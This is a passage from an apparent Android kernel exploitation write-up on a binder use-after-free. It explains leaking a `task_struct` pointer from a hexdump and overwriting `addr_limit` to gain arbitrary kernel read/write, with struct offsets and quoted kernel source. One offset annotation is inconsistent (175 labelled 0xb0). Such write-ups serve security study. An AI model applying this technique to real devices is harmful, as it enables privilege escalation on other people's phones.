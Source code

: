 **data_buffer hexdump**

```
// dump after leak read

0x000000: a8 cc 8f 3a 80 88 ff ff a8 cc 8f 3a 80 88 ff ff  ...:.......:....
0x000010: 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
                             [...]
0x0000d0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x0000e0: 00 00 00 00 00 00 00 00 00 ee 81 3a 80 88 ff ff  ...........:....

```

**struct binder_thread**
```c
struct binder_thread {
    struct binder_proc *proc;
    [...]
    wait_queue_head_t wait; // offset 160 (0xa0)
    {
        .lock // offset 160 (0xa0)
        .next // offset 168 (0xa8)
        .prev // offset 175 (0xb0)
    }
    [...]
    struct task_struct *task; // offset 400 (0x190)
};
```

When we read the data, it will be from where `binder_thread.wait.next` used to be which is offset `0xa8`.  If you want to to get to task_struct you would need to get `uint64_t` of `data_buffer+0xe8`. `0xe8` is from `task_struct_offset (0x190)- wait.next (0xa8)`.

## Overriding addr_limit

In `task_struct` there is a field named `addr_limit` which is used to validate where user process can write/read to/from. We know that higher virtual address is used for kernel address. If we can override this field with `0xFFFFFFFFFFFFFFFE`, we should be able to write to any address giving us `Arbitary R/W`. The reason why it is `0xFFFFFFFFFFFFFFFE` instead of `0xFFFFFFFFFFFFFFFF` is explained in these blog. [duasynt](https://duasynt.com/blog/android-uao-kernel-expl-mitigation)and [HackSysTeam](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/exploitation.html#leaking-task-struct-pointer)
Another gotcha are that we can't use `readv` to write to our `iovecs`. The reason being is that `readv` will not process one `iovec`. This means that when you try to read data to `iovecs`, it will try to copy all sum of `iov_len` to `iovecs[10].iov_base`. And if you remember from [Child Process Cause unlinking](#child-process--cause-unlinking), `iovecs[10].iov_len` becomes `binder_thread_ptr` which is really big number. Therefore, it will just skip out on processing `iovecs[11]`.

**iov_iter.c readv**
```c
static size_t copy_page_to_iter_iovec(struct page *page, size_t offset, size_t bytes,
                         struct iov_iter *i)
{
        size_t skip, copy, left, wanted;
        const struct iovec *iov;
        char __user *buf;
        void *kaddr, *from;
        [...]
        while (unlikely(!left && bytes)) {
                iov++;
                buf = iov->iov_base;
                copy = min(bytes, iov->iov_len);
                left = copyout(buf, from, copy);
                [...]
        }
        [...]
```